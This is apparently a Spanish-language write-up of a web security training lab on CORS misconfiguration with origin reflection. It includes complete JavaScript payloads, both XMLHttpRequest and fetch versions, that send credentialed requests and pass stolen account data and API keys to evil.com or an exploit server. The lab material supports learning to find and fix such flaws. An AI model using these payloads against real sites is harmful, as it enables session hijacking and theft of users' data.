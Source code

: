 ## Same-origin policy

La política de mismo origen es una especificación restrictiva de origen cruzado que limita la capacidad de un sitio web para interactuar con recursos fuera del dominio de origen. La política de mismo origen se definió hace muchos años en respuesta a interacciones entre dominios potencialmente maliciosas, como el robo de datos privados de un sitio web por parte de otro. Por lo general, permite que un dominio envíe solicitudes a otros dominios, pero no que acceda a las respuestas.

## Relaxation of the same-origin policy

La política de mismo origen es muy restrictiva y, en consecuencia, se han ideado diversos enfoques para eludir las restricciones. Muchos sitios web interactúan con subdominios o sitios de terceros de una manera que requiere un acceso completo entre orígenes. Es posible relajar de forma controlada la política de mismo origen utilizando el intercambio de recursos entre orígenes (CORS).

El protocolo de intercambio de recursos entre orígenes utiliza un conjunto de encabezados HTTP que definen los orígenes web de confianza y las propiedades asociadas, como si se permite el acceso autenticado. Estos se combinan en un intercambio de encabezados entre un navegador y el sitio web de origen cruzado al que intenta acceder.

## Vulnerabilities arising from CORS configuration issues

Muchos sitios web modernos utilizan CORS para permitir el acceso desde subdominios y terceros de confianza. Su implementación de CORS puede contener errores o ser demasiado permisiva para garantizar que todo funcione, lo que puede dar lugar a vulnerabilidades explotables.

## Lab: CORS vulnerability with basic origin reflection

![20250920120738.png](20250920120738.png)

```
/my-account?id=wiener
```

![20250921032555.png](20250921032555.png)

- `Access-Control-Allow-Origin: evil.com` → El servidor **confía explícitamente** en `evil.com` y permite que se lea la respuesta desde ese origen.
    
- `Access-Control-Allow-Credentials: true` → Permite enviar **cookies de sesión** junto con la solicitud (la cookie `session` en este caso).

Con esa configuración, cualquier atacante que controle evil.com puede:

- Forzar al navegador de la víctima a hacer peticiones autenticadas al sitio vulnerable.
- Leer la respuesta completa, incluyendo datos sensibles como apikey o sessions.
- Esto es similar a un CSRF + Data Theft, pero usando CORS para permitir que el atacante vea la respuesta.

```c
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0afd00cf032a481e80459e9f00f00077.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;  // Esto envía la cookie de sesión automáticamente
    req.send();

    function reqListener() {
        // Envía la respuesta a tu servidor atacante
        location='https://evil.com/log?key='+this.responseText;
    };
</script>
```

- `req.withCredentials = true;`  
    Esto hace que el navegador **incluya la cookie `session`** cuando se hace la petición, como si fuera el usuario legítimo.
    
- `this.responseText`  
    Aquí se guarda la respuesta del endpoint vulnerable, por ejemplo:

```c
{
  "username": "wiener",
  "apikey": "gRNQd0wVY58GWKF2khnFTChbWkCPaiBI"
}
```

`location='/log?key='+this.responseText;`  
Esto redirige al navegador de la víctima a tu servidor (`evil.com/log`) para **robar los datos** capturados.

```c
Origin: evil.com
```

- El atacante crea una página maliciosa en `evil.com` con el payload.
- La víctima, que **ya está autenticada** en el sitio vulnerable, visita `evil.com`.
- El script en `evil.com` hace una petición `GET` a:

```c
https://0afd00cf032a481e80459e9f00f00077.web-security-academy.net/accountDetails
```

enviando automáticamente la cookie de sesión de la víctima.
-  El servidor vulnerable **responde con los datos de la cuenta**, y por mala configuración de CORS: 
	- Permite que el navegador entregue esa información al script atacante.
- El script roba esa información y la envía al atacante.

Al enviar nuestro script a la victima, podemos ver que este nos devuelve la información del username, email, apikey, sessions 

![20250921035647.png](20250921035647.png)

Una vez obtenida esta apikey, podemos usar la session para ingresar como administrador

![20250921035741.png](20250921035741.png)

![20250921035833.png](20250921035833.png)

## Mas detalles

### Explicación del código

```c
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0afd00cf032a481e80459e9f00f00077.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;  // Esto envía la cookie de sesión automáticamente
    req.send();

    function reqListener() {
        // Envía la respuesta a tu servidor atacante
        location='https://exploit-0aff00d2030b486480f49d1901760090.exploit-server.net/exploit/log?key='+this.responseText;
    };
</script>

```

Expliquemos a detalle el script:

Este script explota una mala configuración de **CORS** para robar datos sensibles del usuario autenticado.

1. Creación del objeto `XMLHttpRequest`

```c
var req = new XMLHttpRequest();
```

Este objeto permite a tu script hacer peticiones HTTP desde el navegador.

Es la base de AJAX, pero aquí lo usamos con fines maliciosos.


2. Definir la función que maneja la respuesta

```c
req.onload = reqListener;
```

`onload` se ejecuta cuando el servidor responde correctamente.

Asignamos como handler la función `reqListener`, que es la encargada de robar la información.

3. Configuración de la solicitud
```c
req.open('get','https://0afd00cf032a481e80459e9f00f00077.web-security-academy.net/accountDetails',true);
```

- `GET` → Método HTTP.
- URL → Es el endpoint vulnerable al que queremos acceder con la cookie de la víctima.
- `true` → La petición será asíncrona, no bloquea el navegador.

4. Envío de credenciales (cookies)

```c
req.withCredentials = true;
```

- Esta línea es CRÍTICA.

- Le dice al navegador:
	"Incluye las cookies asociadas al dominio objetivo cuando hagas la petición."
	
Sin esto, la petición no enviaría la cookie session de la víctima y no estaríamos autenticados.

En este caso, la cookie que se envía es:

```c
Cookie: session=L93tHDlRNpkzxbYDXZKhgEuUVA62JLcY
```

5. Envió de solicitud

```c
req.send();
```

6. Capturar y exfiltrar la respuesta

```c
function reqListener() {
    location='https://evil.com/log?key='+this.responseText;
};
```

- `this.responseText` → Contiene la respuesta **completa** que devolvió el servidor vulnerable.    
- Ejemplo de contenido:

```c
{
  "username": "wiener",
  "apikey": "gRNQd0wVY58GWKF2khnFTChbWkCPaiBI",
  "sessions": ["L93tHDlRNpkzxbYDXZKhgEuUVA62JLcY"]
}
```

Luego el script redirige el navegador a: `https://evil.com/log?key=<respuesta robada>`

### Otras Alternativas de explotación

```c
fetch('https://victim.com/api/secret', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    credentials: 'include',
    body: JSON.stringify({action: "steal"})
})
.then(response => response.text())
.then(data => {
    fetch('https://evil.com/log?stolen=' + encodeURIComponent(data));
});
```